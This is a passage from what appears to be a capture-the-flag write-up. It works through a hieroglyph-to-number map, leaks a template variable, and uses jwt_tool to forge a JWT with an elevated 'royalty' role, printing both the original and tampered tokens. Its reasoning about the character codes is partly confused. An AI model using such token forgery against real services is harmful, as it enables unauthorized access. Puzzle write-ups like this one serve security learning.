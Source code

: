 ```json
    "𓀦": 77862,
    "𓀧": 77863,
    "𓀨": 77864,
    "𓀩": 77865,
    "𓀪": 77866,
    "𓀫": 77867,
    "𓀬": 77868,
    "𓀭": 77869,
    "𓀮": 77870,
    "𓀯": 77871,
    "𓀰": 77872,
    "𓀱": 77873,
    "𓀲": 77874,
    "𓀳": 77875,
    "𓀴": 77876,
    "𓀵": 77877,
    "𓀶": 77878,
    "𓀷": 77879,
    "𓀸": 77880,
    "𓀹": 77881,
    "𓀺": 77882,
    "𓀻": 77883
}
```


A useful character here might `.`, which is ASCII code `46`. Searching the above list, only one is worth investigating:


```
'𓀖':77846
```


Breaking the unicode into ASCII, we'll find `778` is a newline (`%0a`) and `46` is a `.`

Wait, I'm a n00b.. I just realised we can send `{{KINGSDAY}}` to print the variable.


```
03_07_1341_BC
```


Let's forge a JWT with the correct `ROLE` and `CURRENT_DATE`.


```bash
jwt_tool eyJ0eXAiOiJKV1QiLCJhbGciOiJFZERTQSJ9.eyJST0xFIjoiY29tbW9uZXIiLCJDVVJSRU5UX0RBVEUiOiIwN18wOV8yMDI0X0FEIiwiZXhwIjo5NjMzMzcxNDI5OX0.53yJHr1ZxEYzRIrX2GEDao3kTbAY-W3y-9vOHZvRCmYtD49ty-EIo7KyjpwPEEmz-FxxUq2rynETCKiW_6ZIBQ -I -pc ROLE -pv royalty -pc CURRENT_DATE -pv 03_07_1341_BC

eyJ0eXAiOiJKV1QiLCJhbGciOiJFZERTQSJ9.eyJST0xFIjoicm95YWx0eSIsIkNVUlJFTlRfREFURSI6IjAzXzA3XzEzNDFfQkMiLCJleHAiOjk2MzMzNzE0Mjk5fQ.53yJHr1ZxEYzRIrX2GEDao3kTbAY-W3y-9vOHZvRCmYtD49ty-EIo7KyjpwPEEmz-FxxUq2rynETCKiW_6ZIBQ
```
